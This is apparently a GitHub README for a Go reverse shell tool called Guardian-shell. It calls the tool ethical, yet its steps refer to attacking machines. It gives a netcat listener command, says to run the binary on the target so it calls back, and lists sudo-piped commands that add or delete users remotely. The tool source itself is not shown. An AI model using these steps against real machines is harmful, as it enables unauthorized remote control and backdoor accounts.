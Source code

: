 ## what is it ?

Guardian-shell is a  secure reverse shell tool written in Go. Designed with a focus on responsible use and ethical practices, it facilitates secure communication between authorized parties. Guardian-shell empowers you with the ability to remotely execute commands on target machines, for easy system management and monitoring. 

## usage

step 1 : from your (attacking) machine run `nc -lvp 20090`

step 2 : run guardian_shell on the machine you want to attack. 
copy from this repo and paste it on the machine you want to attack and run it `./guardian-shell`
on success, it will give you response `Connected to the reverse guardian listern!` or ti will wait for listner.

## sample commands

to add new user in remote linux server
```
echo ur_sudo_password | sudo -S useradd testuser; echo new_password_123 | passwd testuser
```

to delete user from remote linux server
```
echo ur_sudo_password | sudo -S userdel testuser
```

## on attacking machine 
![image](https://github.com/avvvet/guardian-shell/assets/25494022/23a2039c-0d53-4fa9-9551-0e0bf3eed47a)

## on the remote machine to be attached
![image](https://github.com/avvvet/guardian-shell/assets/25494022/bcc2d45a-f4ec-49ad-9def-8c46bad02074)
